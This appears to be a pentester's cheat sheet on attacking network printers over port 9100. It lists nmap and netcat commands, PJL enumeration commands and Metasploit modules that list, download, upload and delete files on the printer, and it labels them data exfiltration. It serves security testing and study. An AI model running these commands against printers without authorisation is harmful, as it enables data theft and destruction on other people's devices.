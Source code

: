 # Printers

## 01 - Banner Grab

```
$ nmap -p 9100 -sV -Pn -n <IP>
```

Establish connection through the printer's port.

```
$ nc -vn <IP> 9100
```

## 02 - Enumeration

```
@PJL INFO STATUS      #CODE=40000   DISPLAY="Sleep"   ONLINE=TRUE
```

```
@PJL INFO ID          # ID (Brand an version): Brother HL-L2360D series:84U-F75:Ver.b.26
```

```
@PJL INFO PRODINFO    #Product info
```

```
@PJL FSDIRLIST

@PJL FSDIRLIST NAME="0:\" ENTRY=1 COUNT=65535  #List dir

msf > use auxiliary/scanner/printer/printer_list_dir
```

```
@PJL INFO VARIABLES   #Env variales

msf > use auxiliary/scanner/printer/printer_env_vars
```

```
@PJL INFO FILESYS     #?
```

```
@PJL INFO TIMEOUT     #Timeout variables
```

```
@PJL RDYMSG           #Ready message

$ nmap -p 9100 -Pn -n --script-help pjl-ready-message --script-args 'pjl_ready_message="<message>"' <IP>

msf > use auxiliary/scanner/printer/printer_ready_message
```

```
@PJL FSINIT
```

```
msf > use auxiliary/scanner/printer/printer_list_volumes

msf > use auxiliary/scanner/printer/printer_version_info
```

TODO: Re-arrange them to **File Transfer and Data Exfiltration** section

```
@PJL FSDOWNLOAD       #Useful to download a file

msf > use auxiliary/scanner/printer/printer_download_file
```

```
@PJL FSUPLOAD         #Useful to upload a file

msf > use auxiliary/scanner/printer/printer_upload_file
```

```
@PJL FSDELETE         #Useful to delete a file

msf > use auxiliary/scanner/printer/printer_delete_file
```

---
## References

### Backlinks

- [[PRET|Initial Access: Printers]]

### Hacktricks

- [Hacktricks: Pentesting Raw Printing (JetDirect, AppSocket, PDL-datastream)](https://book.hacktricks.wiki/en/network-services-pentesting/9100-pjl.html)

### Network Mapper NSE Docs

- [Network Mapper NSEDocs: pjl-ready-message Script](https://nmap.org/nsedoc/scripts/pjl-ready-message.html)

### Hacking Printers

- [Hacking Printers](https://hacking-printers.net/wiki/index.php/Main_Page)